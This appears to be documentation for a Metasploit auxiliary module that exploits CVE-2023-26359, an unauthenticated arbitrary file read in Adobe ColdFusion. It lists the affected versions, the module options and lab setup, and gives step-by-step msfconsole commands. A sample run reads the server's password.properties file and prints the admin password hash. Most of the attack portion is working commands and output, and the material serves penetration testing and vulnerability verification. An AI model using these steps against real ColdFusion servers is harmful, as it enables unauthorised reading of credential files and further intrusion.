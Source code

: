 ## Vulnerable Application
This module leverages an unauthenticated arbitrary file read vulnerability due to deserialization of untrusted data
in Adobe ColdFusion. The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update
15 and earlier. For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1iRdvtUgtW/cve-2023-26359/rapid7-analysis).

## Options
To successfully read back the contents of an arbitrary file, you must set the modules `CFC_ENDPOINT` option to a valid
ColdFusion Component (CFC) endpoint on the target server. You must also set the `CFC_ENDPOINT` option to the name of a
remote method from that `CFC_ENDPOINT`. While the vulnerability is triggered regardless of remote method begin invoked,
in order for ColdFusion to emit the `TARGETFILE` contents in the HTTP response, the remote method invoked must return
a result. If the CFC_METHOD requires parameters, they can be provided via the `CFC_METHOD_PARAMETERS` option. By default
a CFC endpoint and method from the ColdFusion Administrator (CFIDE) are provided, which is accessible in many but not
all configurations.

## Testing
To setup a test environment, the following steps can be performed.
1. Setup a Windows Server 2022 VM.
2. Download the [ColdFusion 2021
Update 5](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_win64.exe)
installer and install it.
3. Configure the ColdFusion server for production use and enable the Secure Profile during setup.
4. If the default CFIDE endpoints are not accessible (e.g. The server is configured with a Secure profile), install a 
web application on top of ColdFusion in order to expose CFC endpoints. Alternatively, create a test CFC endpoint
called `testing.cfc` in the `wwwroot` folder with the following contents:
```
component testing {
	
	remote String function foo()  { 

		return "Hello from foo";
	}
}
```
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26359`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set CFC_ENDPOINT /testing.cfc`
5. `set CFC_METHOD foo`
6. Optionally `set CFC_METHOD_PARAMETERS param1=foo, param2=bar` if the CFC_METHOD requires parameters.
7. `set TARGETFILE ../lib/password.properties`
8. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
9. `run`

## Scenarios
### Adobe ColdFusion 2021 Update 5 on Windows Server 2022
```
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26359) > show options

Module options (auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26359):

   Name                   Current Setting             Required  Description
   ----                   ---------------             --------  -----------
   CFC_ENDPOINT           /testing.cfc                yes       The target ColdFusion Component (CFC) endpoint
   CFC_METHOD             foo                         yes       The target ColdFusion Component (CFC) remote method name
   CFC_METHOD_PARAMETERS                              no        The target ColdFusion Component (CFC) remote method parameters
                                                                 (e.g. "param1=foo, param2=bar")
   Proxies                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                 172.23.13.12                yes       The target host(s), see https://docs.metasploit.com/docs/using
                                                                -metasploit/basics/using-metasploit.html
   RPORT                  8500                        yes       The target port (TCP)
   SSL                    false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT             false                       no        Store the target file as loot
   TARGETFILE             ../lib/password.properties  yes       The target file to read, relative to the wwwroot folder.
   VHOST                                              no        HTTP server virtual host

msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26359) > run
[*] Running module against 172.23.13.12

[*] #Tue Mar 28 01:33:23 PDT 2023
password=30160D97731079B7ACCF7BCFAD049FCCCA3F855318037AC09DC00FFD52A29F5C
rdspassword=
encrypted=true

[*] Auxiliary module execution completed
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26359) > 
```
